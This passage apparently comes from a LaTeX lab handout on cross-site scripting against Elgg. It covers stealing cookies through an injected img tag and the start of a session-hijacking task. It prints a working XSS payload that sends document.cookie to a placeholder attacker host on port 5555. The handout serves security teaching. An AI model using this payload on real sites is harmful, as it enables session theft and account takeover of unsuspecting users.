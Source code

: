\subsection{Task 3: Stealing Cookies from the Victim's Machine}

In the previous task, the malicious JavaScript code written by 
the attacker can print out the
user's cookies, but only the user can see the cookies, not the 
attacker.  In this task, the attacker wants the JavaScript code 
to send the cookies to himself/herself.
To achieve this, the malicious JavaScript code needs to 
send an HTTP request to the attacker, with the cookies appended to 
the request.

We can do this by having the malicious JavaScript insert an {\tt $<$img$>$} tag with
its {\tt src} attribute set to the attacker's machine.  When the JavaScript inserts
the {\tt img} tag, the browser tries to load the image from the URL in
the {\tt src} field; this results in an HTTP GET request sent to the attacker's
machine. The
JavaScript given below sends the cookies to the port 5555 of the
attacker's machine, where the attacker has a TCP server listening 
to the same port. The server can print out whatever it receives. 
The TCP server program is in the echoserver directory on the attacker computer.
Note that in the output, the {\tt =} character gets transformed to {\tt \%3D}.

{\footnotesize
\begin{Verbatim}[frame=single] 
 <script>document.write('<img src=http://attacker_IP_address:5555?c=' 
                                  + escape(document.cookie) + '   >'); 
 </script> 
\end{Verbatim}
}

\subsection{Task 4: Session Hijacking using the Stolen Cookies}

After stealing the victim's cookies, the attacker can do whatever the victim
can do to the {\tt Elgg} web server, including adding and deleting friends
on behalf of the victim, deleting the victim's post, etc. Essentially, 
the attacker has hijacked the victim's session. 
In this task, we will launch this session hijacking attack, and
write a program to add a friend on behalf of the victim. 
The attack should be launched from another virtual machine.


To add a friend for the victim, we should first find out how a legitimate 
user adds a friend in {\tt Elgg}.
More specifically, we need to figure out what are sent to the server when a user 
adds a friend. Firefox's {\tt Web Developer / Network} tool can help us; it 
can display the contents of any HTTP request message sent 
from the browser. From the contents, we can identify all
the parameters in the request. A screen shot of sample HTTP headers is given in
Figure~\ref{fig:livehttptext}. This header information is gathered using
the  Firefox {\tt Web Developer / Network} tools
in the victim's browser.

